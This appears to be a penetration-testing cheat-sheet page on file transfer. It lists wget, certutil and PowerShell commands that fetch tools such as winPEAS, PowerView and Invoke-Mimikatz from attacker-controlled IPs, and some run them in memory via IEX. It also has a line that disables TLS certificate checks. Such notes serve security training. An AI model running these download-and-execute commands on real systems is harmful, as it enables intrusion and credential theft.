 

## Curl
![Pasted image 20220807171324](https://github.com/dbissell6/Shadow_Stone/assets/50979196/b6e6de4a-cba9-40e0-ae36-609dac78af18)

## wget

![Pasted image 20220807171312](https://github.com/dbissell6/Shadow_Stone/assets/50979196/c6f33b8e-9620-4ce9-9ea0-853344b41170)

### Get a files from a folder
```
wget -r -np http://10.10.14.98
```

## From Attack to Windows




### windows without curl or wget can use
```
certutil.exe -urlcache -f http://10.10.16.3:9999/winPEASany.exe winPEASany.exe
```

### Powershell download
```
(New-Object Net.WebClient).DownloadFile('<Target File URL>','<Output File Name>')
```
Following code will execute in memory
```
IEX (New-Object Net.WebClient).DownloadString('https://<snip>/Invoke-Mimikatz.ps1')
```

### Bypass common errors
Parsing error
```
Invoke-WebRequest https://<ip>/PowerView.ps1 -UseBasicParsing | IEX
```

SSL/TLS secure channel
```
[System.Net.ServicePointManager]::ServerCertificateValidationCallback = {$true}
```


# ssh/scp

Local to Remote

![image](https://github.com/dbissell6/Shadow_Stone/assets/50979196/cf6142e3-11ca-4f7d-89ee-b18a2ab38ac8)

Remote to Local
